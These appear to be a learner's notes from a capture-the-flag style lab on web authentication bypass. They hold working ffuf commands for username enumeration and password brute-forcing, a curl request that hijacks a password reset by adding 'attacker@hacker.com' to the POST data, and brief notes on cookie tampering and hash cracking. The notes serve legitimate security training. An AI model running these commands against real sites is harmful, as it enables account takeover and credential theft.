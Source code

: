 Username enumeration 

here we will refer to two methods of succesfull user enumeration i.e 

1. error messages like - incorrect password , incase if a username is correct

or 

2. create a new user with fake data to see if "username already exist"

here we will use ffuf tool to automate this process i.e method 2 to see if username already exist condition is met 

Command will look like 

"ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.72.168/customers/signup -mr "username already exists""

where 

-w for wordlist 

-X for method used i.e GET , POST etc.

-d to add data to be sent i.e username , password and confirm password 

-H for adding aditional headers to our request 

-u for specifying url 

-mr to specify the text we are looking for 


---------------------------------------------------

Bruteforcing usernames with passwords to find a valid password 

here we will use ffuf and use 2 wordlist together 

command will be like 


"ffuf -w usernames.txt:W1,/home/kali/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.72.168/customers/login -fc 200"

  ->  :W1 to specify wordlist as "W1"
  ->  :W2 to specify wordlist as "W2" 

  most of the other arguments are same as above , here rather then "FUZZ" keyword we got W1 and W2 with username=W1&password=W2 .

  we used -fc to find status code other than "200" i.e 
  "302" for a sucessful login , 302 is for redirect 


  -------------------------------------------------------

  Logic Flaw 

  Sometimes authentication processes contain logic flaws. A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker. Logic flaws can exist in any area of a website. 


  we can manipulate logic flaws by using burpsuite or curl

  here we learned how to use curl to change post parameter in our request to send email to us 


  commands used are :- 

first command

  " curl 'http://10.10.72.168/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert' "

Second Command

  "curl 'http://10.10.72.168/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com' "

here we manipulated post data in 2nd command to completely change the email being send to genuiene user to malicious user.


-----------------------

Cookies Manipulation

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.


The contents of some cookies can be in plain text, and it is obvious what they do. Take, for example, if these were the cookie set after a successful login:

Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/

--------
Hashing

Sometimes cookie values can look like a long string of random characters; these are called hashes which are an irreversible representation of the original text.  

hashing algorithm examples are md5 , sha-256 , sha512 , sha1

 https://crackstation.net/ keep databases of billions of hashes and their original strings.

-------------------------

Encoding

Encoding is similar to hashing in that it creates what would seem to be a random string of text, but in fact, the encoding is reversible.

encoding converts binary to human readable text so that ascii or text only supported platforms can use our cookies 

examples base64 and base 32

---------------------------------